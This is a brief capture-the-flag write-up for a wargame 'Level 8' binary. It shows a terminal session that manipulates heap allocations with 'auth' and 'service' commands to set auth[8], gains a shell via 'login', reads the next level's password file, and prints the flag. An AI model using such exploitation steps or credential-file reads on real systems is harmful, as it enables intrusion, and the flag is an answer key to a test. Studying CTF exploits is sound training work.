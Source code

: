 # Level 8

We just want to put some kind of value in auth[8] and the only way we have to write there is using the service command after initializing auth

```bash
./level8
(nil), (nil)
auth 
0x8c259c0, (nil)
service
0x8c259c0, 0x8c259d0
service
0x8c259c0, 0x8c259e0
login
$ cat /home/user/level9/.pass
```

**Flag:** `c542e581c5ba5162a85f767996e3247ed619ef6c6f7b76a59435545dc6259f8a`
